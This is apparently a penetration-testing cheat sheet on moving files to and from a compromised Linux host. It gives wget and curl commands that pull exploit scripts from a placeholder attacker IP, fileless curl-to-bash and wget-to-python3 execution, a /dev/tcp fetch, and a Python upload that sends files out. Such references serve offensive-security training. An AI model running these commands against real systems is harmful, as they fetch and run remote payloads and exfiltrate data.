 ## Wget and cURL

Download our files:
```console
victim@machine$ wget http://<ip>:<port>/exploit.sh 
victim@machine$ curl http://<ip>:<port>/exploit.sh -o exploit.sh 
```

## Fileless 

```console
victim@machine$ curl http://<ip>/<exploit>/ | bash
victim@machine$ wget -q0- http://<ip>/<exploit>/ | python3
```

## Bash 

```console
victim@machine$ exec 3<>/dev/tcp/<ip>/<port>
victim@machine$ echo -e "GET /<exploit> HTTP/1.1\n\n">&3
victim@machine$ cat <&3
```

> Version 2.04 or greater
{: .prompt-info }

## SSH 

First enable it:
```console
zero@pio$ sudo systemctl enable ssh 
zero@pio$ sudo systemctl start ssh 
zero@pio$ netstat -lnpt 

zero@pio$ scp <file> victim@<ip>:/tmp/<file> 
```

> You can create a temporary user for upload if you don't want to leave your credentials there
{: .prompt-tip}

## Web Servers

We can create a wide variety of web servers for download and upload files: 

- python3 

```console
zero@pio$ sudo python3 -m http.server <port>

zero@pio$ sudo python3 -m uploadserver <port>
zero@pio$ python3 -c 'import requests;requests.post("<python upload server>",files={"files":open("<file to upload>","rb")})'
```
